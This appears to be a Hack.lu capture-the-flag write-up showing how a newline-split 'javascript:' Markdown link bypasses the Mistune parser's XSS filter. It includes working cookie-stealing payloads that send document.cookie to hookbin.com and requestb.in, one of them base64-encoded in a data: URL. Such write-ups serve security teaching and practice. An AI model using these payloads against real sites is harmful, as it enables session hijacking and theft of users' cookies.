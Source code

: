 # [HACK.LU-CTF] Mistune (Web)
##### **Description :** Markdown parsers are fun. Now click here and steal the cookie!

In this challenge, we have two forms to submit Markdown code that is parsed by Mistune.
The first form is for testing purposes and the second one's sent contents are read by an admin bot which has the flag in it's cookies.

In markdown syntax, we can create a XSS payload by using the link creation directive :
```
[mylink](https://www.google.com)
[xss](javascript:alert`1`)
```

Mistune parser filters out the **javascript:** token. We need to find a way to bypass this filter to get a working XSS payload.
To do so, we try to use **data:text/html** but it only works on Firefox browser.
```
[click](data:text/html;base64,PHNjcmlwdD53aW5kb3cubG9jYXRpb24gPSAiaHR0cHM6Ly9ob29rYmluLmNvbS9iaW4vdkRrWDlyanc/YWRtaW5fY29va2llPSIrZG9jdW1lbnQuY29va2llPC9zY3JpcHQ+)
```

We found some bypasses on Mistune's github [Issue#87](https://github.com/lepture/mistune/issues/87) but they are inefficient since the parser is up-to-date.
 
After many trials and errors, we came up with a filter bypass! The mighty newline character **\n** !
It's stripped out by the browser thus leading to a working XSS payload.
```
[xss](javascript
:document.location="https://requestb.in/XXXXXXX?fckadmins="+document.cookie)
```

Boom! We got the flag!